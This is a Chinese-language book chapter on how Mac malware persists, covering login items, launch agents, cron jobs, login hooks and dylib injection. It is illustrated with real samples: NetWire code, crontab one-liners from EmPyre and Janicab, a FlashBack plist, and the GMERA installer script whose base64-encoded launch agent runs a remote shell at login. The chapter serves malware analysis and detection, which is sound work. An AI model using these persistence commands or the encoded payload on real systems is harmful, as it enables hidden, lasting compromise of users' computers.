





# 2

持续性


一旦恶意软件成功入侵系统，它的下一个目标通常是保持持久性。*持久性*是恶意软件通过在系统中安装自身来确保其在启动时、用户登录时或其他确定性事件发生时自动重新执行的手段。绝大多数 Mac 恶意软件都试图获得持久性，否则系统重启可能会成为它的终结。

当然，并非所有恶意软件都会保持持久性。有一种特别的恶意软件通常不会保持持久性，即*勒索软件*，这是一种加密用户文件并要求赎金以恢复文件的恶意代码。一旦恶意软件加密了用户的文件并提供了赎金说明，就没有必要继续停留在系统中。类似地，复杂的攻击者可能会利用仅存在于内存中的有效负载，这些有效负载设计上不会在系统重启后存活。其吸引力在于？极高的隐蔽性。

尽管如此，大多数恶意软件以某种方式保持持久性。现代操作系统，包括 macOS，提供了多种方式让合法软件保持持久性。安全工具、更新程序和其他程序通常会利用这些机制，确保它们在每次系统重启时自动重新启动。多年来，恶意软件作者也利用这些相同的机制不断执行他们的恶意创作。在本章中，我们将讨论 Mac 恶意软件常常滥用的持久性机制（或者在少数情况下，可能滥用的机制）。在适用的情况下，我们将重点介绍利用每种持久性技术的实际恶意样本。通过全面了解这些方法，你应该能够更有效地分析 Mac 恶意软件，并且在感染系统上发现持久性恶意软件。

## 登录项

如果某个应用程序应该在用户每次登录时自动执行，Apple 推荐将其安装为*登录项*。登录项在用户的桌面会话中运行，继承用户的权限，并在用户登录时自动启动。由于这种持久性，Mac 恶意软件通常会将自己安装为登录项。你可以在像 Kitm、NetWire 和 WindTail 这样的恶意软件中找到这一技术的示例。

你可以在“系统偏好设置”应用中查看登录项。选择**用户与群组**面板中的**登录项**标签页（图 2-1）。



图 2-1：持久化的登录项。Finder 项目实际上是恶意软件（NetWire）。

不幸的是，由于 macOS 并不直接在其界面中显示持久化登录项的完整路径（除非你将鼠标悬停在该项上几秒钟），恶意软件通常能够成功伪装成合法软件。例如，在 Figure 2-1 中，Finder 项实际上是恶意软件，名为 NetWire，作为登录项持久存在。

Apple 的 `backgroundtaskmanagementagent` 程序负责管理各种后台任务，如登录项，它将这些项目存储在名为 *backgrounditems.btm* 的文件中。有关此文件及其格式的更多技术细节，请参阅我关于“阻止登录项的博客”文章。^(1)

为了以编程方式创建登录项，软件可以调用各种共享文件列表（`LSSharedFileList*`）API。例如，`LSSharedFileListCreate` 函数返回现有登录项列表的引用。然后，可以将该列表传递给 `LSSharedFileListInsertItemURL` 函数，并提供要作为登录项持久化的新应用程序的路径。为了说明这一概念，请查看以下来自 NetWire 恶意软件的反编译代码。该恶意软件已将自己复制到 *~/.defaults/Finder.app*，并作为登录项持久存在，确保每次用户登录时，macOS 会自动执行它（Listing 2-1）。

```
length = snprintf_chk(&path, 0x400, ...., "%s%s.app", &directory, &name);
pathAsURL = CFURLCreateFromFileSystemRepresentation(0x0, &path, length, 0x1); 1
...
list = LSSharedFileListCreate(0x0, kLSSharedFileListSessionLoginItems, 0x0);
LSSharedFileListInsertItemURL(list, kLSSharedFileListItemLast, 0x0, 0x0, pathAsURL, ... ); 2
```

Listing 2-1: 登录项持久化（NetWire）

在这段代码片段中，恶意软件首先构建其在磁盘 1 上的位置的完整路径。然后，它调用多个 `LSSharedFileList*` API，将自己安装为登录项 2。持久性实现！

WindTail 是另一种作为登录项持久存在的恶意软件。通过 macOS 的 `nm` 工具，你可以查看二进制文件调用的导入 API，包括在这种情况下与持久性相关的 API（Listing 2-2）。

```
**%** **nm WindTail/Final_Presentation.app/Contents/MacOS/usrnode**
  ...
  U _LSSharedFileListCreate
  U _LSSharedFileListInsertItemURL
  U _NSApplicationMain
  ...
  U _NSHomeDirectory
  U _NSUserName
```

Listing 2-2: 导入，包括 `LSSharedFileList*` API（WindTail）

在 `nm` 工具的输出中，注意到 WindTail 包含对 `LSSharedFileListCreate` 和 `LSSharedFileListInsertItemURL` API 的引用，它调用这些 API 以确保每次用户登录时都会自动启动。

macOS 的最新版本还支持特定应用程序的辅助登录项。这些辅助项位于应用程序包的 *LoginItems* 子目录中，它们可以通过调用 `SMLoginItemSetEnabled` API 来确保在用户登录时会自动重新执行。不幸的是，这些辅助登录项不会出现在前述的系统偏好设置面板中，使得它们更难以检测。如需了解有关这些辅助登录项的更多信息，请参见“现代登录项”博客文章或 Apple 关于该主题的文档。^(2)

## 启动代理和守护进程

虽然苹果提供登录项作为持久化应用程序的一种方式，但它也有一个机制，称为*启动项*，用于持久化非应用程序二进制文件，如软件更新程序和后台进程。由于大多数 Mac 恶意软件试图在后台偷偷运行，因此大多数 Mac 恶意软件利用启动项来实现持久化也就不足为奇了。事实上，根据我撰写的《2019 年 Mac 恶意软件报告》，2019 年所有选择持久化的恶意软件都作为启动项执行。^(3) 这些样本包括 NetWire、Siggen、GMERA 等。

启动项有两种类型：启动代理和启动守护进程。*启动守护进程*是非交互式的，通常在用户登录之前启动。此外，它们以 root 权限运行。一个例子是苹果的软件更新程序`softwareupdated`。另一方面，*启动代理*在用户登录后以标准用户权限运行，并且可能与用户会话进行交互。苹果的`NotificationCenter`程序处理向用户显示通知，作为一个持久化的启动代理运行。

你会在 macOS 的*/Library/LaunchDaemons*目录中找到第三方启动守护进程，第三方启动代理则存储在*/Library/LaunchAgents*或*~/Library/LaunchAgents*目录中。为了持久化为启动项，启动项属性列表应当被创建在这些目录中的一个。属性列表，或称*plist*，是一种 XML、JSON 或二进制文件，包含键/值对，用于存储如配置信息、设置、序列化对象等数据。这些文件在 macOS 中无处不在。事实上，我们在第一章已经探索过应用程序的*Info.plist*文件。要查看属性列表文件的内容，无论其格式如何，请使用以下任一工具（列表 2-3）。

```
plutil -p *<path to plist**>*
defaults read *<path to plist>*
```

列表 2-3：解析*.plist*文件的 macOS 工具

启动项的属性列表文件描述了该启动项，以供负责处理此类 plist 文件的系统守护进程`launchd`使用。在持久化方面，最相关的键/值对包括：

+   `标签`：用于标识启动项的名称。通常以反向域名表示法书写，`com.``companyName``.``itemName`。

+   `Program`或`ProgramArguments`：包含启动项可执行脚本或二进制文件的路径。要传递给此可执行项的参数是可选的，但如果使用`ProgramArguments`键，可以指定这些参数。

+   `RunAtLoad`：包含一个布尔值，如果设置为`true`，则指示`launchd`自动启动该启动项。如果该项是启动守护进程，它将在系统初始化时启动。另一方面，由于启动代理是特定于用户的，它们会在用户启动登录过程后再启动。

这三个键值对足以创建一个持久的启动项。为了演示这一点，让我们创建一个名为`com.foo.bar`的启动项（清单 2-4）。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC ...>
<plist version="1.0"><dict>
 <key>Label</key>    
 <string>com.foo.bar</string>   
 <key>ProgramArguments</key>
     <array>        
    <string>/Users/user/launchItem</string>       
    <string>foo</string>    
    <string>bar</string>    
 </array>    
 <key>RunAtLoad</key>    
1 <true/> 
</dict>
</plist>
```

清单 2-4：一个示例的启动项属性列表

通过`ProgramArguments`数组，这个启动项指示`launchd`执行文件*/Users/user/launchItem*，并带有两个命令行参数：`foo`和`bar`。由于`RunAtLoad`键设置为`true` 1，这个文件将在用户登录之前自动执行。关于启动项的所有相关讨论，包括 plist 及其键值对的综述，请参阅“一个 Launchd 教程”或“入门 Launchd”。^(4) 这些资源包括讨论其他键值对（超出`RunAtLoad`）的内容，这些键值对可能被持久恶意软件使用，例如`PathState`和`StartCalendarInterval`。由于作为启动项持久存在的恶意软件相当普遍，现在让我们看几个示例。

在本章的前面部分，我们展示了 NetWire 作为登录项持久存在的方式。有趣的是，它也作为一个启动代理持久存在。如果受害者找到并移除了一个持久化机制，他们可能会假设这是唯一的机制，并忽视其他机制。因此，恶意软件将会在用户每次登录时自动重新启动。检查恶意软件的二进制代码会在地址`0x0000db60`处发现一个嵌入的属性列表模板（清单 2-5）。

```
0x0000db60 "<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n
<!DOCTYPE plist PUBLIC \"-//Apple Computer//DTD PLIST 1.0//EN\n\t\"http://www.apple.com/DTDs/PropertyList-1.0.dtd\">\n
<plist version=\"1.0\">\n
<dict>\n
    <key>Label</key>\n
    <string>%s</string>\n
    <key>ProgramArguments</key>\n
    <array>\n
        <string>%s</string>\n
    </array>\n
    <key>RunAtLoad</key>\n
  1 <true/>\n
    <key>KeepAlive</key>\n
    <%s/>\n
</dict>\n
</plist>\n", 0
```

清单 2-5：一个启动项属性列表模板（NetWire）

在安装时，恶意软件将动态填充这个 plist 模板，例如，通过用感染系统上恶意软件二进制文件的路径替换`ProgramArguments`数组中的`%s`。由于`RunAtLoad`键设置为`true` 1，macOS 会在系统重新启动并且用户登录时启动此二进制文件。

NetWire 的反编译代码片段显示，一旦它配置了启动代理属性列表，这个属性列表就会被写入用户的启动代理目录*~/Library/LaunchAgents*（清单 2-6）。

```
... 
eax = getenv("HOME");
eax = snprintf_chk(&var_6014, 0x400, 0x0, 0x400, "%s/Library/LaunchAgents/", eax); 1
...
eax = snprintf_chk(edi, 0x400, 0x0, 0x400, "%s%s.plist", &var_6014, 0xe5d6); 2

edi = open(edi, 0x601);
if (edi >= 0x0) {
  write(edi, var_688C, ebx); 3
  ...
}
```

清单 2-6：启动代理持久化逻辑（NetWire）

在反编译的代码中，您可以看到恶意软件首先调用`getenv` API 来获取`HOME`环境变量的值，该值设置为当前用户的主目录。然后将此值传递给`snprintf_chk` API 来动态构建到用户*LaunchAgents*目录的路径 1。然后，恶意软件再次调用`snprintf_chk`来追加属性列表文件的名称 2。由于此名称在运行时由恶意软件解密，因此在清单 2-6 中不显示为明文字符串。

一旦恶意软件构建了完整的路径，它就会写出动态配置的 plist 3。在代码执行之后，你可以通过 macOS 的`defaults`工具检查*.plist*文件（*~/Library/LaunchAgents/com.mac.host.plist*）（清单 2-7）。

```
% **defaults read ~/Library/LaunchAgents/com.mac.host.plist**
{
    KeepAlive = 0;
    Label = "com.mac.host";
    ProgramArguments =     (
        "/Users/user/.defaults/Finder.app/Contents/MacOS/Finder"
    );
    RunAtLoad = 1;
}
```

清单 2-7：一个恶意的启动项属性列表（NetWire）

从输出中可以看出，恶意软件持久化组件的路径可以在`ProgramArguments`数组中找到：*/Users/user/.defaults/Finder.app/Contents/MacOS/Finder*。如前所述，恶意软件在运行时通过编程确定当前用户的主目录，因为这个目录名称很可能在每个被感染的系统中都是唯一的。

为了在一定程度上隐藏自己，NetWire 将其持久化二进制文件*Finder*安装到它创建的一个名为*.defaults*的目录中。通常，macOS 不会显示以句点开头的目录。因此，恶意软件可能会对大多数毫无察觉的用户保持隐藏状态。（你可以通过按下 command-shift-space [⌘-⇧-space] 或在终端中使用`ls`命令并加上`-a`选项来显示这些隐藏文件。）你还可以看到，在*.plist*文件中，`RunAtLoad`键被设置为`1`（true），这指示系统在每次用户登录时自动启动恶意软件的二进制文件。持久性实现！

另一个作为启动项保持持久性的 Mac 恶意软件示例是 GMERA。它作为一个木马化的加密货币交易应用程序分发，包含一个名为*run.sh*的安装脚本，该脚本位于其应用程序包的*Resources/*目录中（图 2-2）。



图 2-2：一个被木马化的应用程序（GMERA）

检查该脚本会发现，它将安装一个持久化且隐藏的启动代理到*~/Library/LaunchAgents/.com.apple.upd.plist*（列表 2-8）。

```
#! /bin/bash
...
plist_text="PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiPz4KPCFET0NUWVBFIHBsaXN0IFBVQkxJQyAiLS8vQXBwbGUvL0RURCBQTElTVCAxLjAvL0VOIiAiaHR0cDovL3d3dy5hcHBsZS5jb20vRFREcy9Qcm9wZXJ0eUxpc3QtMS4wLmR0ZCI+CjxwbGlzdCB2ZXJzaW9uPSIxLjAiPgo8ZGljdD4KCTxrZXk+S2VlcEFsaXZlPC9rZXk+Cgk8dHJ1ZS8+Cgk8a2V5PkxhYmVsPC9rZXk+Cgk8c3RyaW5nPmNvbS5hcHBsZXMuYXBwcy51cGQ8L3N0cmluZz4KCTxrZXk+UHJvZ3JhbUFyZ3VtZW50czwva2V5PgoJPGFycmF5PgoJCTxzdHJpbmc+c2g8L3N0cmluZz4KCQk8c3RyaW5nPi1jPC9zdHJpbmc+CgkJPHN0cmluZz5lY2hvICdkMmhwYkdVZ09qc2daRzhnYzJ4bFpYQWdNVEF3TURBN0lITmpjbVZsYmlBdFdDQnhkV2wwT3lCc2MyOW1JQzEwYVNBNk1qVTNNek1nZkNCNFlYSm5jeUJyYVd4c0lDMDVPeUJ6WTNKbFpXNGdMV1FnTFcwZ1ltRnphQ0F0WXlBblltRnphQ0F0YVNBK0wyUmxkaTkwWTNBdk1Ua3pMak0zTGpJeE1pNHhOell2TWpVM016TWdNRDRtTVNjN0lHUnZibVU9JyB8IGJhc2U2NCAtLWRlY29kZSB8IGJhc2g8L3N0cmluZz4KCTwvYXJyYXk+Cgk8a2V5PlJ1bkF0TG9hZDwva2V5PgoJPHRydWUvPgo8L2RpY3Q+CjwvcGxpc3Q+"

echo "$plist_text" |   base64 --decode1 > "/tmp/.com.apple.upd.plist"
  cp "/tmp/.com.apple.upd.plist" "$HOME/Library/LaunchAgents/.com.apple.upd.plist" 2
  launchctl load "/tmp/.com.apple.upd.plist" 3
```

列表 2-8：一个恶意的安装脚本，*run.sh*（GMERA）

请注意，plist 中的混淆内容位于名为`plist_text`的变量中。恶意软件使用 macOS 的`base64`命令 1 解码 plist，并将其写入*/tmp*目录，命名为*.com.apple.upd.plist*。然后，通过`cp`命令，它将该文件复制到用户的*LaunchAgents*目录 2。最后，它通过`launchctl`命令 3 启动该启动代理。

一旦安装脚本被执行，你可以检查现在已经解码的启动代理属性列表，*.com.apple.upd.plist*（列表 2-9）。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" ...>
<plist version="1.0">
<dict>
  <key>KeepAlive</key>
  <true/>
  <key>Label</key>
  <string>com.apples.apps.upd</string>
  <key>ProgramArguments</key>
 <array>
   <string>sh</string>
   <string>-c</string> 
   <string>echo 'd2hpbGUgOjs...RvbmU=' | base64 --decode | bash</string>
 </array>
 1 <key>RunAtLoad</key> 
 <true/>
</dict>
```

列表 2-9：一个恶意的启动代理 plist（GMERA）

由于`RunAtLoad`键被设置为`true` 1，`ProgramArguments`数组中指定的命令（解码为远程 shell）将在每次用户登录时自动执行。

最后一个启动项持久性的例子是 EvilQuest。如果该恶意软件以 root 权限运行，它将作为一个启动守护进程保持持久性，但因为启动守护进程是以 root 身份运行的，用户必须拥有 root 权限才能创建一个启动守护进程。因此，如果 EvilQuest 发现自己仅以用户权限运行，它会创建一个用户启动代理。

为了处理这种持久性，EvilQuest 包含一个嵌入的属性列表模板，用于创建启动项。然而，为了增加分析难度，这个模板被加密了。在后续章节中，我将描述如何应对这些反分析手段，但现在你只需要知道，我们可以利用调试器，简单地等待恶意软件解密嵌入的属性列表模板。然后我们可以查看内存中未加密的 plist 模板（Listing 2-10）。

```
% **lldb /Library/mixednkey/toolroomd**
...
(lldb) **x/s $rax**
0x100119540: "<?xml version="1.0" encoding="UTF-8"?>\n<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">\n<plist version="1.0">\n<dict>\n<key>Label</key>\n<string>%s</string>\n\n<key>ProgramArguments</key>\n<array>\n<string>%s</string>\n<string>--silent</string>\n</array>\n\n<key>RunAtLoad</key>\n<true/>\n\n<key>KeepAlive</key>\n<true/>\n\n</dict>\n</plist>"
```

Listing 2-10：解密后的属性列表模板（EvilQuest）

这里我们使用`lldb`，macOS 的调试器，启动名为*toolroomd*的文件。一段时间后，恶意软件解密属性列表模板并将其内存地址存储在`RAX`寄存器中。这使我们能够通过`x/s`命令显示现在已经解密的模板。

通常，一个更简单的方法是将恶意软件执行在独立分析或虚拟机中，等待恶意软件写出其启动项属性列表。一旦 EvilQuest 完成安装并持久性地感染系统，你可以在*/Library/LaunchDaemons*目录中找到它的启动守护进程属性列表，名为*com.apple.questd.plist*（Listing 2-11）。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>questd</string>
    <key> 1 ProgramArguments</key> 
    <array>
        <string>sudo</string>
        <string>/Library/AppQuest/com.apple.questd</string>
        <string>--silent</string>
    </array>
    <key> 2 RunAtLoad</key> 
 <true/>
    ...
</dict>
```

Listing 2-11：启动项 plist（EvilQuest）

由于`RunAtLoad`键被设置为`true` 2，`ProgramArguments`数组 1 中的值将在每次系统重启时自动执行。

## 调度的作业和任务

在 macOS 中，有多种方式可以调度作业或任务在指定时间间隔内运行。恶意软件可以（并且确实）滥用这些机制来保持在感染的 macOS 系统上的持久性。本节将介绍几种调度机制，如 cron 作业、at 作业和定期脚本。需要注意的是，启动项也可以通过`StartCalendarInterval`键调度在定期的时间间隔内运行，但由于我们在本章早些时候已经讨论过它们，这里不再重复介绍。

### Cron 作业

由于其基于 BSD 的核心基础，macOS 提供了几种类 Unix 的持久性机制。*Cron 作业*就是其中之一。通常由系统管理员使用，它们提供了一种在特定时间持久执行脚本、命令和二进制文件的方法。与前面讨论的登录项和启动项不同，持久性 cron 作业通常在指定的时间间隔内自动执行，例如每小时、每天或每周，而不是在特定事件（如用户登录）发生时执行。你可以通过内置的*/usr/bin/crontab*工具调度持久性 cron 作业。

在 macOS 恶意软件中，利用 cron 作业保持持久性并不特别常见。然而，流行的开源后渗透工具 EmPyre，攻击者有时会使用它来攻击 macOS 用户，提供了一个例子。^(5) 在它的 crontab 持久性模块中，EmPyre 直接调用*crontab*二进制文件将自己安装为一个 cron 作业（Listing 2-12）。

```
cmd = 1 'crontab -l | { cat; echo "0 * * * * %s"; } | 2 crontab -'
3 subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE).stdout.read()
```

Listing 2-12：Cron 作业持久性（EmPyre）

EmPyre 首先通过连接多个子命令构建一个字符串，这些命令将新的恶意 cron 作业与当前的作业一起添加。`crontab`命令（带有`-l`标志）将列出用户现有的 cron 作业 1。`cat`和`echo`命令将附加新命令。最后，`crontab`命令（带有`-`标志）将重新安装现有作业以及新的 cron 作业 2。一旦这些命令被连接在一起（并存储到`cmd`变量中），它们将通过 Python subprocess 模块的 Popen API 3 执行。`cmd`变量中的`%s`将在运行时用要持久化项的路径更新，`0 * * * *`组件指示 macOS 每小时执行一次该作业。关于 cron 作业的全面讨论，包括作业创建的语法，可以查看 Wikipedia 上的“Cron”页面。^(6)

让我们简要看一下 Janicab 的另一个 cron 作业持久性示例。该恶意软件将编译后的 Python 脚本*runner.pyc*作为 cron 作业持久化（Listing 2-13）。

```
subprocess.call("crontab -l > 1 /tmp/dump",shell=True) 
...
subprocess.call( 2 "echo \"* * * * * python ~/.t/runner.pyc \" >>/tmp/dump",shell=True) 

subprocess.call( 3 "crontab /tmp/dump",shell=True) 
subprocess.call("rm -f /tmp/dump",shell=True)
```

Listing 2-13: cron 作业持久性（Janicab）

Janicab 的 Python 安装程序首先将现有的 cron 作业保存到名为*/tmp/dump* 1 的临时文件中。然后，它将其新作业附加到该文件 2 中，最后调用`crontab`来完成 cron 作业的安装 3。一旦新 cron 作业添加完成，macOS 将每分钟执行指定的命令`python ~/.t/runner.pyc`。这个编译后的 Python 脚本确保恶意软件始终在运行，并在必要时重新启动它。

### at 作业

实现 macOS 持久性的另一种方式是通过*at 作业*，它们是一次性任务。^(7) 你可以在*/private/var/at/jobs/*目录中找到 at 作业，并通过*/usr/bin/atq*实用程序列举它们。在默认安装的 macOS 中，at 调度器*/usr/libexec/atrun*是禁用的。然而，恶意软件可以通过 root 权限启用它（Listing 2-14）。

```
# **launchctl load -w /System/Library/LaunchDaemons/com.apple.atrun.plist**
```

Listing 2-14: 启用 at 调度器

启用此调度器后，恶意软件可以通过将持久命令传递到*/usr/bin/at*，并指定执行的时间和日期，轻松创建一个 at 作业。一旦执行，它可以简单地重新安排该作业以保持持久性。不过，目前没有 Mac 恶意软件利用此方法保持持久性。

### 定期脚本

如果你列出*/etc/periodic*的内容，你会找到一个包含将在特定时间间隔内运行的脚本的目录（Listing 2-15）。

```
% **ls /etc/periodic**

daily
weekly
monthly
```

Listing 2-15: 定期脚本

尽管该目录由 root 拥有，但具有足够权限的恶意软件可能能够创建（或颠覆）一个定期脚本，从而在固定时间间隔内实现持久性。尽管定期脚本在概念上与 cron 作业相似，但它们之间还是有一些区别，例如它们由一个独立的守护进程处理。^(8) 与 at 作业类似，目前没有恶意软件利用此方法保持持久性。

## 登录和注销钩子

在 macOS 上实现持久性的另一种方式是通过 *登录* 和 *登出钩子*。安装为登录或登出钩子的脚本或命令会在用户每次登录或登出时自动执行。你会在用户特定的 *~/Library/Preferences/com.apple.loginwindow.plist* 文件中找到这些钩子，以键值对的形式存储。键的名称应为 `LoginHook` 或 `LogoutHook`，值为在登录或登出时要执行的文件路径（示例 2-16）。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist ...>
<plist version="1.0">
 <dict>     
  <key>LoginHook</key>
  1 <string>/usr/bin/hook.sh</string> 
 </dict>
</plist>
```

示例 2-16：一个 `LoginHook` 示例

在这个例子中，*hook.sh* 脚本将会在每次用户登录时执行。请注意，在任何给定时刻，系统中只能指定一个 `LoginHook` 和一个 `LogoutHook` 键值对。然而，如果恶意软件遇到已经存在合法登录或登出钩子的系统，它可能会将额外的命令附加到现有的钩子上，从而获得持久性。或许由于苹果已经开始弃用这种持久性技术，目前没有恶意软件利用这些钩子。

## 动态库

*动态库（dylibs）*是包含可执行代码的模块，进程可以加载并执行这些代码。苹果的开发者文档解释了使用动态库的原因，指出操作系统已经“在库中实现了应用所需的大部分功能”^(9)。因此，应用程序开发者可以将他们的代码链接到这些库，而不是从头开始重新实现功能。虽然可以将库静态链接到程序中，但这样做会增加程序的大小和内存使用量。此外，如果库中发现了缺陷，程序就需要重新构建才能利用修复或更新的功能。另一方面，动态链接库只是将指定的依赖项添加到程序中；实际的库代码并未编译进来。当程序启动或需要访问库功能时，库会被动态加载。这减少了程序的大小和总内存使用量。动态加载这些库的程序将自动受益于任何修复和更新的功能。

大多数被 Mac 恶意软件滥用的持久性机制强制操作系统自动启动某个独立的应用程序或二进制文件。虽然这在获得和维持持久性方面没有问题，但通常会导致系统上运行一个新的不受信任的进程。一个好奇的用户可能会注意到这一点，尤其是如果他们查看正在运行的进程列表。更重要的是，安全工具主要关注进程级事件，可能很容易发现这些新进程，从而揭露恶意软件。

更隐蔽的持久化机制则利用动态库。由于这些库是在受信任的宿主进程中加载的，它们本身不会导致新进程的创建。因此，对正在运行的进程的检查不会轻易揭示它们的存在，这可能也不会被安全工具检测到。使用动态库进行持久化的思路非常直接。恶意软件首先定位到一个定期启动的现有进程，这个进程可能由系统自动启动，或者由用户手动启动（例如，用户的浏览器就是这样一个进程）。然后，它强迫该进程加载恶意库。

在本节中，我们首先讨论恶意软件可能利用的 dylib 持久化的一般方法，这些方法能够针对广泛的进程进行攻击。接下来，我们将探讨恶意软件可以利用的具体基于插件的持久化方法，这些方法能够以隐秘的方式实现重新执行。请注意，恶意软件作者也可能滥用动态库执行其他目的，而不仅仅是持久化，例如篡改感兴趣的进程，如用户的浏览器。此外，一旦动态库被加载到某个进程中，该动态库将继承该进程的权限，这可能使恶意软件能够访问受保护的设备，如摄像头或麦克风以及其他敏感资源。

### DYLD_* 环境变量

任何代码都可以使用 `DYLD_*` 环境变量，如 `DYLD_INSERT_LIBRARIES` 和 `DYLD_FRAMEWORK_PATH`，在加载时将任何动态库注入目标进程。当加载进程时，动态加载器将检查 `DYLD_INSERT_LIBRARIES` 变量并加载它指定的任何库。通过滥用这一技术，攻击者可以确保每次启动该进程时都会加载恶意库。如果该进程经常自动启动，或者用户频繁启动它，那么这种技术就提供了一种相当可靠且高度隐蔽的持久化方式。^(10)

通过 `DYLD_*` 环境变量持久化注入动态库的具体方法各不相同。如果恶意软件的目标是启动项，它可能会通过向启动项的属性列表中插入一个新的键/值对来进行修改。键名 `EnvironmentVariables` 会引用一个包含 `DYLD_INSERT_LIBRARIES` 键/值对的字典，指向恶意的动态库。如果恶意软件的目标是某个应用程序，则该方法涉及修改应用程序的 *Info.plist* 文件并插入类似的键/值对，但键名为 `LSEnvironment`。

我们来看一个例子。臭名昭著的 FlashBack 恶意软件通过滥用这种技术来保持持久化，目标是用户的浏览器。列表 2-17 是一个被 FlashBack 篡改的 Safari *Info.plist* 文件片段。

```
<key>LSEnvironment</key>
<dict>
 <key>DYLD_INSERT_LIBRARIES</key>
 1 <string>/Applications/Safari.app/Contents/Resources/UnHackMeBuild</string>
</dict>
```

列表 2-17：`DYLD_INSERT_LIBRARIES` 持久化（FlashBack）

请注意，FlashBack 恶意软件已经向文件中添加了一个`LSEnvironment`字典，其中包含一个`DYLD_INSERT_LIBRARIES`键/值对。该值指向恶意动态库 1，当浏览器启动时，macOS 将加载并在 Safari 上下文中执行它。^(11)

自 2012 年 FlashBack 滥用此技术以来，Apple 大幅度减少了`DYLD_*`环境变量的作用范围。例如，动态加载器（`dyld`）现在在多种情况下会忽略这些变量，比如 Apple 平台的二进制文件或使用强化运行时编译的第三方应用程序。值得注意的是，平台二进制文件以及那些受强化运行时保护的应用程序，可能对其他动态库插入（如本节后续讨论的那些）不易受到影响。有关强化运行时提供的安全功能的更多详细信息，请参见 Apple 的文档《强化运行时》。^(12)

尽管采取了这些预防措施，许多操作系统组件和流行的第三方应用程序仍然支持加载任意动态库。此外，选择加入强化运行时的操作系统二进制文件和应用程序，可能会提供例如`com.apple.security.cs.allow-dyld-environment-variables`或`com.apple.security.cs.disable-library-validation`等特权，允许加载恶意动态库。因此，基于动态库的持久性依然存在大量机会。

### Dylib 代理

一种更现代的动态库注入方法涉及一种我称之为*dylib 代理*的技术。简而言之，dylib 代理通过将目标进程依赖的库替换为恶意库来实现。当目标应用程序启动时，恶意动态库将被加载并执行。

为了保持应用程序的合法功能，恶意库代理原始库的请求和返回。它可以通过创建一个包含`LC_REEXPORT_DYLIB`加载命令的动态库来实现这种代理。我们将在第五章讨论加载命令；现在只需知道，`LC_REEXPORT_DYLIB`加载命令本质上告诉动态加载器：“嘿，虽然我这个恶意库并未实现你所需要的功能，但我知道谁有！”事实证明，这就是加载器维持代理库提供的功能所需的唯一信息。

